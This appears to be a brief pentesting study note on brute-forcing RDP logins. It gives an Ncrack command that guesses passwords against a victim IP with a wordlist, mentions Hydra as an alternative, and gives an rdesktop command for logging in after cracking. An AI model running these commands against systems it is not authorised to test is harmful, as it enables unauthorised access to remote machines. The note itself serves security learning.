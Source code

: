 **RDP** -> remote desktop protocol

We will use the tool **Ncrack**, thus we can also use **Hydra**

Differences between Hydra and Ncrack:

![](./img/hydravsncrack.png)

````
ncrack -vv --user username -P wordlist_to_use victim's_ip:port
````
- Once cracked, we will use the tool **RDesktop**:
````
rdesktop -u username -g 100% -PKD victim's_ip
````